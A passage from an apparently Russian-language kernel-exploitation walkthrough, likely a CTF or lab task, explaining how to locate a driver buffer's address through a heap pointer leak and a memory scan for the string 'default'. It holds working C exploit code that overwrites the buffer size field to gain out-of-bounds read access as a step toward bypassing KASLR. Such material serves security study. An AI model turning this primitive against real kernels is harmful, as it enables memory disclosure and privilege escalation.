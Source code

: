 Мы имеем возможность относительного чтения. Значит, чтобы читать конкретный адрес который мы хотим, нам надо узнать относительно какого адреса пишем мы. Чтобы узнать это применим следующую стратегию:
1. Получим адрес указателя `buffer->name` через утечку описанную выше

2. Будем двигать `buffer->pos` вперёд и назад по 8 байт и читать данные в поисках строки "default" которая записывается поле `buffer->name` при открытии драйвера

3. Как только мы найдём эти данные — это будет означать, что мы читаем адрес который мы знаем и отняв/прибавив к нему смещение мы получим адрес относительно которого мы читаем. То есть адрес где лежит `buffer->state`

Реализуем это в коде:
```c
uint64_t try_break_kaslr(int fd) {
    if (fd == INVALID_FD) { 
        return -1;
    }

    uint8_t* buffer = (uint8_t*) calloc(BUF_SIZE, sizeof(uint8_t));
    read(fd, buffer, BUF_SIZE); // skip
    read(fd, buffer, BUF_SIZE - 1); // skip

    memset(buffer, 0x0, BUF_SIZE);
    read(fd, buffer, 256); // leak

    // get buffer->name pointer
    uint64_t leak_name = *(uint64_t*)(buffer + 17);
    printf("{+} heap leak name: 0x%llx\n", leak_name);

    // change size to 0xffffffffffffffff
    lseek(fd, (off_t)511, SEEK_SET);
    uint8_t write_buffer[16] = {0, 0xff,0xff,0xff,0xff,0xff,0xff,0xff,0xff, 0, 0, 0, 0, 0, 0, 0};
    write(fd, write_buffer, 16);
    
    uint64_t content_addr = 0x0;

    for (int i = 0; i < 0x10000; i += 8) {
        char tmp_buf[8] = {0};
     
        lseek(fd, (off_t)512 + i, SEEK_SET);
        read(fd, tmp_buf, 8);
        if (!strncmp(tmp_buf, "default", 7)) {
            printf("off(+): 0x%llx\n", 512 + i);
            content_addr = leak_name - 512 - i;
            break;
        }

        lseek(fd, (off_t)0 - i, SEEK_SET);
        read(fd, tmp_buf, 8);
        if (!strncmp(tmp_buf, "default", 7)) {
            printf("off(-): 0x%llx\n", i);
            content_addr = leak_name + i;
            break;
        }
    }
    printf("{+} buffer->content: 0x%8lx\n", content_addr);
};
```
